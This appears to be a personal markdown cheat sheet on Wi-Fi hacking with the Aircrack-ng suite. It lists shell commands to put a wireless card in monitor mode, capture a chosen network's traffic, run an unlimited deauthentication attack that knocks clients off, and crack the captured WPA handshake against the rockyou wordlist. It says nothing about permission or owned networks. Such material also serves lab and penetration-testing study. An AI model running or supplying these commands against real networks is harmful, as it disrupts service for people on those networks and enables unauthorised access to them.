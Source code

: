 ```markdown
# Wi-Fi Monitoring and Packet Injection

## Enabling Monitor Mode and Testing Packet Injection

To enable monitor mode and test packet injection, follow these steps:

```bash
sudo ifconfig wlan0 down
sudo airmon-ng check kill
sudo iwconfig wlan0 mode monitor
sudo ifconfig wlan0 up
iwconfig
sudo aireplay-ng --test wlan0
```

- **`sudo ifconfig wlan0 down`**: Bring down the wireless interface.
- **`sudo airmon-ng check kill`**: Check for processes that might interfere with monitor mode and kill them.
- **`sudo iwconfig wlan0 mode monitor`**: Set the wireless interface to monitor mode.
- **`sudo ifconfig wlan0 up`**: Bring up the wireless interface.
- **`iwconfig`**: Verify the wireless interface mode.

## Aircrack-ng Usage

To use Aircrack-ng for Wi-Fi hacking, execute the following commands:

```bash
iwconfig
sudo systemctl stop NetworkManager
sudo airmon-ng check kill #to kill
sudo airmon-ng start wlan0
sudo airodump-ng wlan0mon
sudo airodump-ng wlan0mon -c <channel> --bssid <BSSID> -w <filename>
```

1. **First Window**:
   - Make sure you replace the channel number and BSSID with your own.
   - Replace `hack1` with your desired filename, such as `capture1`.

```bash
sudo airodump-ng -w hack1 -c <channel> --bssid <BSSID> wlan0mon
```

2. **Second Window - Deauthentication Attack**:
   - Make sure you replace the BSSID with your own.

```bash
sudo aireplay-ng --deauth 0 -a <BSSID> wlan0mon
```

Once you have captured the necessary data, proceed with stopping monitor mode and cracking the captured handshake:

```bash
sudo airmon-ng stop wlan0mon
sudo aircrack-ng <filename>.cap -w /usr/share/wordlists/rockyou.txt
```
[[TL-WN722N_v2_Kali_Wireless_Setup]]
